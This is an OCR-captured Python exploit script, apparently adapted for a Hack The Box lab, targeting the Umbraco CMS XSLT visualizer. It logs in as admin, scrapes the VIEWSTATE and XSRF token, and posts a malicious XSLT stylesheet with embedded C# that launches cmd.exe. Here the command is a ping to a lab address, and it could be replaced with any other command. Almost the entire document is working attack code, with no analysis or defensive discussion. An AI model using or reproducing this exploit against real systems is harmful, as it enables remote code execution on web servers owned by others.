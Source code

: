 ```bash
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "/c ping 10.10.14.12"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';


# changed String cmd to = `/c ping 10.10.14.12`
# changed FileName = 'cmd/exe'

login = "admin@htb.local"; # changed this
password="baconandcheese"; # changed this
host = "http://10.10.10.180"; # changed this

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
              
```
